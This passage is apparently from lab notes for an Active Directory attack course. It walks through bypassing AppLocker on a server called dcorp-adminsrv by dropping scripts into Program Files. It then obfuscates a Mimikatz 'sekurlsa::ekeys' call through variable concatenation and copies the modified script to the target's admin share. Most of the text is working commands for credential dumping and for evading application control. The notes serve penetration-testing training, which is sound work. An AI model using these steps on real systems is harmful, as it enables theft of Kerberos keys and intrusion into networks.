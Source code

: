 ```powershell
Enter-PSSession dcorp-adminsrv
$ExecutionContext.SessionState.LanguageMode
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

<figure><img src="../../.gitbook/assets/image (192).png" alt=""><figcaption></figcaption></figure>

'Everyone' can run scripts from the Program Files directory. That means, we can drop scripts in the Program Files directory there and execute them.&#x20;

We cannot run scripts using dot sourcing (. .\Invoke-Mimi.ps1), so we must modify Invoke-Mimi.ps1 to include the function call in the script itself and transfer the modified script (Invoke-MimiEx.ps1) to the target server.

#### Create Invoke-MimiEX-keys-std867.ps1:

* Create a copy of Invoke-Mimi.ps1 and rename it to Invoke-MimiEx-keys-stdx.ps1 (where x is your student ID).
* Open Invoke-MimiEX-keys-std867.ps1 in PowerShell ISE (Right click on it and click Edit).
* Add the below encoded value for "sekurlsa::ekeys" to the end of the file.

```
$8 = "s";
$c = "e";
$g = "k";
$t = "u";
$p = "r";
$n = "l";
$7 = "s";
$6 = "a";
$l = ":";
$2 = ":";
$z = "e";
$e = "k";
$0 = "e";
$s = "y";
$1 = "s";
$Pwn = $8 + $c + $g + $t + $p + $n + $7 + $6 + $l + $2 + $z + $e + $0 + $s + $1 ;
Invoke-Mimi -Command $Pwn
```

<figure><img src="../../.gitbook/assets/image (193).png" alt=""><figcaption></figcaption></figure>

On student machine run the following command from a PowerShell session. Note that it will take several minutes for the copy process to complete.

```powershell
Copy-Item C:\AD\Tools\Invoke-MimiEX-keys-std687.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```

<figure><img src="../../.gitbook/assets/image (194).png" alt=""><figcaption></figcaption></figure>

Now, run the modified mimikatz script. Note that there is no dot sourcing here. It may take a couple of minutes for the script execution to complete:
